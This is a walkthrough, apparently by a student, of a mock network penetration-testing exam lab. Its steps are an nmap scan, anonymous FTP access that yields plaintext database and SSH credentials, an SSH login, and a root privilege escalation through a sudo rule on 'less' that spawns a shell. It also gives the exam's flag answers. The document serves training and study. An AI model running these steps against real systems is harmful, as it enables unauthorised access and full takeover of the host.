

# Network Penetration Tester 2025 Mock Exam

> Organised by: [0day](https://www.linkedin.com/company/zer0day-technology/about/)
>
> Challenge created by: UnShadow

## Enumeration

First of all let's start with knowing your target IP. For me usually I will check my current Kali IP and try to ping the next IP until we get response:
```
┌──(kali㉿kali)-[~]
└─$ ip a 

┌──(kali㉿kali)-[~]
└─$ ping -c 4 <TARGET-IP>
PING <TARGET-IP> (<TARGET-IP>) 56(84) bytes of data.
64 bytes from <TARGET-IP>: icmp_seq=1 ttl=64 time=0.986 ms
^C
--- <TARGET-IP> ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.986/0.986/0.986/0.000 ms
```

You also can use **netdiscover** for this:
```
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r <YOUR-IP-SUBNET>/24
```



Now, let's use **Nmap** to enumerate the services that running in the server. You can use your preferences for the Nmap scan:
```
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA mockexam 
Nmap scan report for <TARGET-IP>
Host is up, received arp-response (0.00045s latency).
Scanned at 2025-07-26 01:14:44 +08 for 12s
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<TARGET-IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 121      123            36 Jul 18 21:18 db_cred.txt
| -rwxr-xr-x    1 121      123            17 Jul 18 21:18 ftp_flag.txt
|_-rw-r--r--    1 121      123            55 Jul 18 21:20 ssh_creds.txt
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 9.9p1 Ubuntu 3ubuntu3.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:1c:90:d0:c5:51:b6:1b:2f:27:34:38:a9:67:0f:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLCLpawRQanubD9ADRpsgYyoUq8N671Lp6krkoSTRqQ9NLcguI18PopPl4ZJ5qnTE3JbjIvQ52EQGG0fBRJbUr4=
|   256 32:1c:61:f6:77:05:55:0f:af:4a:70:43:9d:0f:bd:da (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDXtQ5ok3lMTr7rcTK3UMXFM835ZNDdJmDR+x8f7e28l
111/tcp  open  rpcbind     syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36342/udp6  mountd
|   100005  1,2,3      50447/tcp6  mountd
|   100005  1,2,3      52852/udp   mountd
|   100005  1,2,3      54181/tcp   mountd
|   100021  1,3,4      34501/tcp   nlockmgr
|   100021  1,3,4      35995/udp6  nlockmgr
|   100021  1,3,4      40904/udp   nlockmgr
|   100021  1,3,4      41345/tcp6  nlockmgr
|   100024  1          35591/udp6  status
|   100024  1          49001/tcp   status
|   100024  1          52581/tcp6  status
|   100024  1          59685/udp   status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4
2049/tcp open  nfs_acl     syn-ack ttl 64 3 (RPC #100227)
MAC Address: 00:0C:29:B7:56:EF (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-25T17:14:55
|_  start_date: N/A
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 12412/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 61416/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 59423/udp): CLEAN (Failed to receive data)
|   Check 4 (port 14167/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: 0DAY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   0DAY<00>             Flags: <unique><active>
|   0DAY<03>             Flags: <unique><active>
|   0DAY<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

Looks like there are **FTP services** running in the server, with the enumerate information, we can try to access the FTP and retrieve the files:
```
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ ftp ftp@<TARGET-IP>
Connected to TARGET-IP>.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get db_cred.txt
local: db_cred.txt remote: db_cred.txt
229 Entering Extended Passive Mode (|||60144|)
150 Opening BINARY mode data connection for db_cred.txt (36 bytes).
100% |*************************************************************************************************************************************************|    36      118.37 KiB/s    00:00 ETA
226 Transfer complete.
36 bytes received in 00:00 (22.62 KiB/s)
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||13196|)
150 Opening BINARY mode data connection for ftp_flag.txt (17 bytes).
100% |*************************************************************************************************************************************************|    17       69.75 KiB/s    00:00 ETA
226 Transfer complete.
17 bytes received in 00:00 (13.99 KiB/s)
ftp> get ssh_creds.txt
local: ssh_creds.txt remote: ssh_creds.txt
229 Entering Extended Passive Mode (|||40310|)
150 Opening BINARY mode data connection for ssh_creds.txt (55 bytes).
100% |*************************************************************************************************************************************************|    55      218.33 KiB/s    00:00 ETA
226 Transfer complete.
55 bytes received in 00:00 (31.33 KiB/s)
ftp> exit
221 Goodbye.
```

<details>
<summary><b>ftp credentials hint</b></summary>
<b>ftp:ftp</b>
</details><br>

Now, let's read the files:
```
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ cat db_cred.txt  
mysql_user: root
mysql_pass: 123456
      
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ cat ftp_flag.txt
NPT{FTP_1S_0PEN}
            
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ cat ssh_creds.txt  
user: 0day_vuln1
pass: Kitt3nMeowz
NPT{REAL_USER_L34K} <--This is a dummy flag
```

## Foothold

Nice, with the **SSH credentials** that we have received, let's SSH to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/0day/NPT2025/Mock-Exam]
└─$ ssh 0day_vuln1@<TARGET-IP>              
0day_vuln1@<TARGET-IP> 's password: <INSERT-PASSWORD>
WELCOME TO 0DAY - NETWORK PENETRATION TESTER - MOCK EXAM 2025

  ██████╗  ██████╗  █████╗  ██╗   ██╗
 ██╔═████╗██╔══██╗ ██╔══██╗ ╚██╗ ██╔╝
 ██║██╔██║██║  ██║ ███████║  ╚████╔╝ 
 ████╔╝██║██║  ██║ ██╔══██║   ╚██╔╝  
 ╚██████╔╝██████╔╝ ██║  ██║    ██║  
  ╚═════╝ ╚═════╝  ╚═╝  ╚═╝    ╚═╝  
  
███╗   ██╗██████╗ ████████╗
████╗  ██║██╔══██╗╚══██╔══╝
██╔██╗ ██║██████╔╝   ██║   
██║╚██╗██║██╔═══╝    ██║   
██║ ╚████║██║        ██║   
╚═╝  ╚═══╝╚═╝        ╚═╝   
$ 
```

Now, try to find **user flag**:
```
$ pwd
/home/0day_vuln1

$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  snap  Templates  update  user.txt  Videos
```

Actually the **user.txt** in this current directory **is not the real flag**, so we need to check if there are other user:
```
$ ls /home
0day_vuln1  npt-vuln1
```

Yeah looks like the **user.txt** maybe in **npt-vuln1** directory.
```
$ cat /home/npt-vuln1/user.txt
```

<details>
<summary><b>🏳️ user.txt</b></summary>
<b>NPT{U53R_FL4G}</b>
</details><br>

## Privilege Escalation

To privilege to **root**, first try to check the **sudo permissions** by using the command:
```
$ sudo -l
.
.
.

User 0day_vuln1 may run the following commands on 0day:
    (ALL) NOPASSWD: /usr/bin/less
```

Looks like **we can run less without password here**. Try to check how to **exploit less to gain root privilege**. From [GTFOBins - less](https://gtfobins.github.io/gtfobins/less/), in **SUDO** section, we can get to root by running the command:
```
$ sudo /usr/bin/less /etc/profile
```

Then in the file, type the line below and enter:
```
!/bin/sh
```

Now we already get the root access, read the **root.txt**:
```
# whoami
root

# cat /root/root.txt
```

<details>
<summary><b>🏳️ root.txt</b></summary>
<b>NPT{R00T_PR1V3SC_FL4G}</b>
</details><br>

## 🏳️ Bonus Flags

For the **first bonus flag**, actually it is located in the **"ftp_flag.txt"** file that we have retrieved before.

<details>
<summary><b>🏳️ First Bonus Flag</b></summary>
<b>NPT{FTP_1S_0PEN}</b>
</details><br>

For the **second and third bonus flag**, you can try use the command below to make it easy to search:
```
# find / -name *.txt 2>/dev/null
```

**Second flag** is located in this directory:
```
/var/www/html/nothing here/i told u there is nothing/haha nothing right/u think im joking/ok jk/u surely dont give up huh/okay okay i get it/aahhhhhhh whyyy/okay here it is/okay still jk hehe/ok congrats cause u dont give up/here it is/tadaaa/flag.txt

# cat '/var/www/html/nothing here/i told u there is nothing/haha nothing right/u think im joking/ok jk/u surely dont give up huh/okay okay i get it/aahhhhhhh whyyy/okay here it is/okay still jk hehe/ok congrats cause u dont give up/here it is/tadaaa/flag.txt'
```

<details>
<summary><b>🏳️ Second Bonus Flag</b></summary>
<b>NPT{TR1CKY_D1R_L4B}</b>
</details><br>

For the **last bonus flag**, it is located in this directory:
```
/var/www/html/secret/flag.txt

# cat /var/www/html/secret/flag.txt
```

<details>
<summary><b>🏳️ Third Bonus Flag</b></summary>
<b>NPT{R0B0T_F14G}</b>
</details>

## References

https://www.linkedin.com/company/zer0day-technology/about/

https://gtfobins.github.io/gtfobins/less/